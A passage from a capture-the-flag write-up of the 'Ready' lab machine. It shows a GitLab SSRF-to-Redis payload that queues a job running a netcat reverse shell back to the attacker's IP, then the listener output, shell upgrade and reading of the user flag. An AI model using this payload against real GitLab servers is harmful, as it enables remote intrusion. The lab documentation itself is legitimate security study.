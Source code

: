 ![Pasted image 20210429225435.png]({{page.screenshots}}Pasted image 20210429225435.png)

The resulting request was the following one:
![Pasted image 20210429225703.png]({{page.screenshots}}Pasted image 20210429225703.png)

Listening on port 1234 we get a response back from the server with the message contained within the payload, meaning that the exploit was successfully executed.
```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ready]
└─$ sudo nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.220] 39212
pippo
```

A reverse connection can be obtained in the same way upgrading the previous PoC to contain a netcat reverse shell:
```bash
<@urlencode_all>git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'| nc 10.10.14.24 1234 -e /bin/bash\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git <@/urlencode_all>
```

Using the above payload, a reverse shell was obtained successfully:
```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Ready]
└─$ sudo nc -nlvp 1234
[sudo] password for kali:
listening on [any] 1234 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.220] 39772

id
uid=998(git) gid=998(git) groups=998(git)
which python
which python3
/opt/gitlab/embedded/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
git@gitlab:~/gitlab-rails/working$ cd /home
cd /home
git@gitlab:/home$ ls
ls
dude
git@gitlab:/home$ cd dude
cd dude
git@gitlab:/home/dude$ ls
ls
user.txt
git@gitlab:/home/dude$ cat user.txt
cat user.txt
e1e30b052b6ec0670698805d745e7682
```
